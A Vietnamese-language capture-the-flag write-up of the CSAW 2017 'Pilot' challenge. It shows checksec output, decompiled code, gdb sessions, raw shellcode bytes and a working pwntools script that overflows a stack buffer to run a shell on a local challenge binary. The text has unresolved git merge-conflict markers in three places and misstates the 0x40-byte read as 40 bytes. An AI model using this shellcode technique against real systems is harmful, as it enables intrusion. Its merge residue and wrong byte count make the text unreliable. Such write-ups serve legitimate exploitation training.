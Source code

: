 ### Pilot - CSAW 2017
* Check security file:
```
 ❯ checksec pilot
[*] '/mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
* Thấy rằng file bin này cho phép thực thi lệnh trên stack.
* Source sau khi được dịch qua IDA:
```
{
  __int64 v3; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Welcome DropShip Pilot...");
  std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I am your assitant A.I....");
  std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
  v5 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I will be guiding you through the tutorial....");
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  v6 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]As a first step, lets learn how to land at the designated location....");
  std::ostream::operator<<(v6, &std::endl<char,std::char_traits<char>>);
  v7 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...");
  std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
  v8 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Good Luck Pilot!....");
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  v9 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  v10 = std::ostream::operator<<(v9, buf);
  std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
  std::operator<<<std::char_traits<char>>(&std::cout, "[*]Command:");
  if ( read(0, buf, 0x40uLL) > 4 )
    return 0LL;
  v11 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
  std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
  v12 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
  std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
  return 0xFFFFFFFFLL;
}
```

* buf được khởi tạo với kích thước 32 bytes tuy nhiên khi đọc buf lại cho phép 40 bytes, vậy ta sẽ ghi đè được ở đây.
* Chạy bin:
```
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffdae0
[*]Command:
```
* Theo thông thường khi khai thác buffer overflow thì payload sẽ bao gồm padding + địa chỉ, padding sẽ nằm trong stack, file bin này cho phép thực thi mã trên stack nên ta có thể chèn vào một shell code trong phần padding.
* Đoạn mã shell code `\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05`
* Tiếp theo cần tìm kích thước của padding để ghi đè.
* Đầu tiên nhập vào chuỗi bất kì sau đó dùng search-pattern để tìm địa chỉ chuỗi này được ghi vào trong stack:
```
gef➤  search-pattern 181818
[+] Searching '181818' in memory
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rwx
  0x7fffffffdae0 - 0x7fffffffdae8  →   "181818\n"
```

* Tìm địa chỉ của rip
```
gef➤  i f
Stack level 0, frame at 0x7fffffffdb10:
 rip = 0x400aee; saved rip = 0x7ffff7b99c8a
 called by frame at 0x7fffffffdbb0
 Arglist at 0x7fffffffdad8, args:
 Locals at 0x7fffffffdad8, Previous frame's sp is 0x7fffffffdb10
 Saved registers:
  rbp at 0x7fffffffdb00, rip at 0x7fffffffdb08
```
<<<<<<< HEAD

=======
* Leak address được chương trình là địa chỉ của `buf`, khi truyền vào payload, nó sẽ đè lên địa chỉ của thanh ghi rip và nó trỏ đến `buf`
>>>>>>> a68ec12ffbe205c53befde3f1c79b32cd40427b8
* Như vậy ta có được offset cần là:
```
>>> 0x7fffffffdb08-0x7fffffffdae0
40
```
<<<<<<< HEAD

=======
* Vậy payload sẽ có dạng như thế này: |----(shell)---Padding------------|--Leak Address--|
* Khi được đưa vào stack, leak address sẽ overwrite lên return address, shell code sẽ nằm trong stack và thực thi. 
>>>>>>> a68ec12ffbe205c53befde3f1c79b32cd40427b8
* file exploit:
```
from pwn import *
p = process('./pilot')

# scpt = '''
# b *0x0000000000400AEE
# '''
# gdb.attach(p, gdbscript=scpt)
print(p.recvuntil(b'[*]Location:'))

leak = str(p.recvline())
adr = int(leak.strip("b'\\n"), 16)

shell_code = b'\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05' # Shell code
payload = b''
payload += shell_code
payload += b'a'*(40-len(shell_code))	
payload += p64(adr)

p.sendline(payload)
p.interactive()
p.close()
<<<<<<< HEAD
```
=======
```
>>>>>>> a68ec12ffbe205c53befde3f1c79b32cd40427b8
